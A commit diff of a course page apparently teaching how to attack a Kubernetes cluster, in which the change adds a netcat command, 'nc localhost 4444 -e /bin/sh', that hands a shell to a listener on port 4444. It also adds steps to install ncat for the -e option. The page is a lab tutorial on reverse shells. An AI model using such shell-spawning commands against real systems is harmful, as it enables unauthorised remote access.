

Before and after one commit to pierre-chx/pierre-chx.github.io, a Markdown page: teachings/attack-kubernetes-cluster/session3.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
update session 3

````diff
--- a/teachings/attack-kubernetes-cluster/session3.md
+++ b/teachings/attack-kubernetes-cluster/session3.md
@@ -8,10 +8,15 @@ First, you will work with the netcat tool in local. In your terminal, try the co
 ```bash
 nc -lvp 4444
 ```
+Then try the command:
+```bash
+nc localhost 4444 -e /bin/sh
+```
+You need to install the `ncat` package to be able to use the `-e` option. To do so, run the following commands:
+```bash
+sudo apt remove netcat-openbsd
 
-If `nc` is not recognized, try installing `netcat-openbsd` using command:
-```bash
-sudo apt install netcat-openbsd
+sudo apt install ncat
 ```
 The netcat tool will be used to attack the cluster. Using netcat commands, a reverse shell can be created. A reverse shell gives access to the attacked machine the following way:
 
````
